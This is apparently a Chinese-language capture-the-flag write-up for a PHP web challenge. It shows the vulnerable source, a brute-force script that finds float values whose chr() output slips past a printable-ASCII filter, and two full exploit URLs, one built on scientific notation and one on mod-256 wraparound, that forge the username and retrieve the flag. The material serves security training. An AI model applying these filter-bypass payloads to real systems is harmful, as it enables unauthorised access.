


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要逻辑代码：

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $value = $_GET['value'];

    $username = $_GET['username'];
    $password = $_GET['password'];

    for ($i = 0; $i < count($value); ++$i) {
        if ($_GET['username']) unset($username);
        if ($value[$i] > 32 && $value[$i] < 127) unset($value);
        else $username .= chr($value[$i]);

        if ($username == '15th_HackingCamp' && md5($password) == md5(file_get_contents('./secret.passwd'))) {
            echo 'Hello '.$username.'!', '<br>', PHP_EOL;
            echo $flag, '<hr>';
        }
    }

    highlight_file(__FILE__);
```

3.这里要求不能输入username，并且输入的vaule不在ascii码可见范围内但是最后又要求value经过chr后拼接的username为`15th_HackingCamp`这里我的第一反应是利用强转和弱比较之类的trick，所以我首先构造了脚本

```php
$i=0;
while ($i <= 100) {
    $test = $i."e1";
    if ($test > 32 && $test < 127)
    {
    }
    else
    {
        if ((ord(chr($test))>32)&&(ord(chr($test))<127))
    {
        echo "test:".$test."   chr:".chr($test)."\n";
    }
    }
     $i = $i+0.1;
}
```

然后很轻松得到可以Bypass的值(如下给出部分)

```php
test:28.9e1   chr:!
test:29e1   chr:"
test:29.1e1   chr:#
test:29.2e1   chr:$
test:29.3e1   chr:%
test:29.4e1   chr:&
test:29.5e1   chr:'
test:29.6e1   chr:(
test:29.7e1   chr:)
test:29.8e1   chr:*
test:29.9e1   chr:+
test:30e1   chr:,
test:30.1e1   chr:-
test:30.2e1   chr:.
test:30.3e1   chr:/
test:30.4e1   chr:0
test:30.5e1   chr:1
test:30.6e1   chr:2
test:30.7e1   chr:3
test:30.8e1   chr:4
test:30.9e1   chr:5
test:31e1   chr:6
```
容易得到payload：

```url
http://IP:PORT//?value[]=56.100000000001e1&value[]=82.1e1&value[]=88.499999999999e1&value[]=87.299999999999e1&value[]=86.399999999999e1&value[]=84.099999999999e1&value[]=60.900000000001e1&value[]=61.100000000001e1&value[]=61.900000000001e1&value[]=61.700000000001e1&value[]=62.200000000001e1&value[]=61.500000000001e1&value[]=57.900000000001e1&value[]=60.900000000001e1&value[]=62.100000000001e1&value[]=62.400000000001e1&password=simple_passw0rd
```

但后来经过查阅chr()相关函数：

```php
Note that if the number is higher than 256, it will return the number mod 256.
For example :
chr(321)=A because A=65(256)
```

得知chr()会自动进行mod256所以我们可以更简单的得到一个payload

```url
http://IP:PORT?value[]=305&value[]=309&value[]=372&value[]=360&value[]=351&value[]=328&value[]=353&value[]=355&value[]=363&value[]=361&value[]=366&value[]=359&value[]=323&value[]=353&value[]=365&value[]=368&password=simple_passw0rd
```

最后得到flag


